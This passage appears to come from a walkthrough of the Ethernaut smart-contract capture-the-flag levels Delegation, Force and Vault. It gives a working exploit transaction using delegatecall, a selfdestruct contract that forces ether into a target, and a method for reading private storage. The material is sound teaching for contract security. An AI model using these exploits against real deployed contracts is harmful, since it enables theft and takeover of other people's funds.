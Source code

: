 ```
    }
  }
}
```

Another aspect of `delegatecall` is the message sender is preserved. When Delegation
calls Delegate the message sender is your EOA instead of the address of the Delegation.

## Exploit
Now we have everything we need to perform the exploit from the console.

```
>> let params = [{ to: instance, from: player, data: '0xdd365b8b' }]
>> await ethereum.request({ method: 'eth_sendTransaction', params })
```

And that clears the level!

# Force
We can force ether into a contract via `selfdestruct(address payable)`.
This is a built-in Solidity function. The receiving contract is unable
to reject the ether because `selfdestruct` **does not** trigger the `receive()`
function of the receiver [3].

We can load up our exploit contract with ether when we deploy it and then
selfdestruct it and send the ether to the `Force` contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForceExploit {
    address payable private immutable force;
    constructor(address payable _force) public payable {
        force = _force;
    }

    function exploit() external {
        require(address(this).balance > 0, "exploit will only succeed with ether");
        selfdestruct(force);
    }
}
```

And that clears the level!

# Vault
To clear this level we have to read a private variable of the `Vault` contract.
Remember all the data is publicly available on-chain. Making a variable private
just makes it inaccessible from other contracts but we can still inspect it using
block explorers. In fact there's an JSON-RPC method to do it: `eth_getStorageAt` [4].
It takes 3 parameters:
1. The contract address to read storage from
2. The storage slot to read. We'll use slot 1 because that's the slot the password
   is in.
3. The block to read (because storage may get updated from block to block we have
   to be specific about which block we want). We want the latest block so we'll
use "latest"
